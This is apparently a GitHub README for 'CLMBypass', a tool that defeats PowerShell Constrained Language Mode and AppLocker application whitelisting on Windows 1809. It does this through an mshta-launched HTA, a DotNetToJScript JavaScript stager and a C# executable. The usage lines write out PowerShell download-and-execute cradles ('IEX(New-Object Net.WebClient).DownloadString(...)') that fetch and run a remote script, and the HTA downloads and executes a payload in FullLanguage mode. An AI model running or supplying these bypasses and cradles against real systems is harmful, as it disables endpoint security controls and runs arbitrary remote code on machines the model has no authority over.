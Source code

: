 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

#### key
- **[A]** denotes applocker bypass for 1809
- **[C]** denots Constrained Language Mode bypass for 1809

<hr>

### content
##### CLMBypass.hta **[AC]**
- The WScript.Shell creates a new runspace
- `payload.ps1` is downloaded and executed in FullLanguage mode
- **Usage:** mshta.exe http://localhost/CLMBypass.hta`

##### CLMBypass.js **[AC]**
- Realized this is redundant... the hta execution already creates another runspace with FullLanguage mode. Leaving it here just in case.
- **Usage:** On Line 131 you can add something like `o.Main("IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')");`
- when the page is loaded, this will execute. If you use DotNetToJScript on your own, the functions and classes *must be public* and the class must have the `[ComVisible(true)]` tag (see Program.cs for an example).

##### CLMBypass.exe **[C]**
- Compiled as PE32 .NET Framework 4.0
- **Usage:** `.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"`

##### Program.cs
- C# source code for CLMBypass.dll, a little outdated for the PE

##### payload.ps1
- payload to be run in FullLanguage mode

